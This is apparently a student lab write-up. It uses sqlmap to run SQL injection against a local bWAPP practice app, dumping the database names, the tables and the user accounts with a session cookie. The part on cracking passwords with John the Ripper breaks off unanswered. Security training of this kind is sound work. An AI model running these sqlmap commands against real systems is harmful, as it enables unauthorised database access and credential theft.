 # Task 2: Attack on the database of bWapp 

**Question 1**: Use sqlmap to get information about all available databases

**Answer 1**:
-  I choose SQL Injection (GET/Select) bug
-  Then I get my cookie from my browser setting
![scr](imgs/get_cookie.png)

-  Command Script:

```
 python sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=4" --dbs --cookie="PHPSESSID=rg31vtuuuqt0s0vh272rrecg14;security_level=0"
```

- Then the output of all databases:

![db](imgs/all_db.png)

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:

-  Get Tables:
From these databases form question 1. I want to get names of all tables in the database bWAPP, this is the root database that stores all user in this database.

```
python sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=4" -D bWAPP --tables --cookie="PHPSESSID=rg31vtuuuqt0s0vh272rrecg14;security_level=0"
```
- Output of getting table:

![tables](imgs/all_tables.png)

- Get Users

```
python sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=4" -users --cookie="PHPSESSID=rg31vtuuuqt0s0vh272rrecg14;security_level=0"
```

-  Output of getting users:

![users](imgs/all_users.png)

So now I have all the table and user accounts on bWAPP.

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:



